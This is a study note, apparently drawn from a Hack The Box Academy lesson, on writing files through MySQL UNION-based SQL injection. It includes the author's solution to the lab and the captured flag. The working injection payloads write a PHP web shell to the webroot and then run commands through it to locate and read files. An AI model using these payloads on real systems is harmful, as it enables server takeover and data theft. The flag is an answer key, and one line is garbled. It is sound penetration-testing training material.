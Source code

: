 ﻿---
sticker: lucide//database
---
When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

---

## Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with`FILE` privilege enabled
2. MySQL global`secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We have already found that our current user has the`FILE` privilege necessary to write files. We must now check if the MySQL database has that privilege. This can be done by checking the`secure_file_priv` global variable.

#### secure_file_priv

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand,`NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the`FILE` privilege. However,`MySQL` uses`/var/lib/mysql-files` as the default folder. This means that reading files through a`MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to`NULL`, meaning that we cannot read/write files anywhere within the system.

So, let's see how we can find out the value of`secure_file_priv`. Within`MySQL`, we can use the following query to obtain the value of this variable:


```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

However, as we are using a`UNION` injection, we have to get the value using a`SELECT` statement. This shouldn't be a problem, as all variables and most configurations' are stored within the`INFORMATION_SCHEMA` database.`MySQL` global variables are stored in a table called [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns`variable_name` and`variable_value`.

We have to select these two columns from that table in the`INFORMATION_SCHEMA` database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them. We will then filter the results to only show the`secure_file_priv` variable, using the`WHERE` clause we learned about in a previous section.

The final SQL query is the following:

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So, similar to other`UNION` injection queries, we can get the above query result with the following payload. Remember to add two more columns`1` &`4` as junk data to have a total of 4 columns':

\
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

And the result shows that the`secure_file_priv` value is empty, meaning that we can read/write files to any location.

---

## SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the`SELECT .. INTO OUTFILE` statement. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

To use it, we can add`INTO OUTFILE '...'` after our query to export the results into the file we specified. The below example saves the output of the`users` table into the`/tmp/credentials` file:


```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server and`cat` the file, we see that table's content:


```shell-session
smoothment@htb[/htb]$ cat /tmp/credentials 

1 admin 392037dbba51f692776d6cefb6dd546d
2 newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly`SELECT` strings into files, allowing us to write arbitrary files to the back-end server.


```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

When we`cat` the file, we see that text:

```shell-session
smoothment@htb[/htb]$ cat /tmp/test.txt 

this is a test
```


```shell-session
smoothment@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul 8 06:20 /tmp/test.txt
```

As we can see above, the`test.txt` file was created successfully and is owned by the`mysql` user.

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

---

## Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write`file written successfully!` to the`/var/www/html/proof.txt` file, which we can then access on the web application:


```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use`load_file` to read the server configuration, like Apache's configuration found at`/etc/apache2/apache2.conf`, Nginx's configuration at`/etc/nginx/nginx.conf`, or IIS configuration at`%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

The`UNION` injection payload would be as follows:

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

 ![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

We don't see any errors on the page, which indicates that the query succeeded. Checking for the file`proof.txt` in the webroot, we see that it indeed exists:

 ![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

---

## Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:


```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous`UNION` injection payload, and change the string to the above, and the file name to`shell.php`:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

 ', œ œ, œ œ into outfile '/var/www/html/shell.php'-- -'>

![](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the`/shell.php` file and executing commands via the`0` parameter, with`?0=id` in our URL:
 ![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

The output of the`id` command confirms that we have code execution and are running as the`www-data` user.

# Question
---

![Pasted image 20250203154637.png](../../../../IMAGES/Pasted%20image%2020250203154637.png)

We can submit the following in order to get the webshell:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Now, we can go to `/shell.php` in the following way:

```r
http://83.136.248.110:40014/shell.php?0=id
```

![Pasted image 20250203154803.png](../../../../IMAGES/Pasted%20image%2020250203154803.png)

Now we got ourselves a webshell, let's try to look around for a flag, we can do this by using:

```r
find / -name '*.txt
```

We need to use URL encoding so:

```r
find+/+-name+'*.txt'+2>/dev/null
```

We'll see the following output:

![Pasted image 20250203155314.png](../../../../IMAGES/Pasted%20image%2020250203155314.png)

Flag is located at `/var/www/flag.txt`, let's read it using:

```
cat+/var/www/flag.txt
```

![Pasted image 20250203155402.png](../../../../IMAGES/Pasted%20image%2020250203155402.png)


Got the flag: `d2b5b27ae688b6a0f1d21b7d3a0798cd `
